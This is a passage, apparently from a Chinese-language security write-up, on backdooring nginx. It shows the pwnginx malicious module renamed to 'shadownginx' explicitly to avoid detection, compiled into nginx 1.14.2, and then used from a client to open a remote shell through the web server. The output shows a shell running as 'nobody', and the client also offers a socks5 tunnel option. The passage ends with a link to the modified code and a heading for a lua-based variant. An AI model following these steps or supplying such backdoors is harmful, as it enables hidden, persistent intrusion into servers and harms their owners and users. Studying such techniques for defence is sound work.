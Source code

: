 **修改特征**

- 修改名称防止被检。使用vscode将所有pwnginx替换为了shadownginx

- t57root替换为shadowtest123
- 所有文件名称pwnginx关键字替换

下载对应版本的nginx

```
wget https://nginx.org/download/nginx-1.14.2.tar.gz
```

编译恶意模块的nginx

```
[root@vuln nginx-1.14.2]# ./configure --without-http_rewrite_module --add-module=../shadownginx/module
[root@vuln nginx-1.14.2]# make && make install
```

启动ng

```
[root@vuln nginx-1.14.2]# /usr/local/nginx/sbin/nginx -c /usr/local/nginx/conf/nginx.conf
```

pwnginx的客户端我们刚刚已经替换了文本，现在需要重新编译，不能用之前的了，执行make即可编译

```
[root@debian client]# ./shadownginx shell 172.16.42.151 80 shadowtest123
[ shadownginx ] - Pwn nginx
Copyleft by shadowtest123 @ openwill.me
<shadowtest123@gmail.com>  [www.HackShell.net]

Usage:
Get a shell access via the nginx running @ [ip]:[port]
	./shadownginx shell [ip] [port] [password]
Get a socks5 tunnel listening at [socks5ip]:[socks5port]
	./shadownginx socks5 [ip] [port] [password] [socks5ip] [socks5port]

[i] Obtaining shell access
[i] About to connect to nginx


[i] Enjoy the real world.
nx1sh: turning off NDELAY mode
id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
```

修改的相关代码已经上传至github: `https://github.com/ShadowFl0w/shadownginx`



### 3.2 nginx + lua



要求安装有ngx_lua模块，在openresty和tengine中是默认安装了ngx_lua模块的。
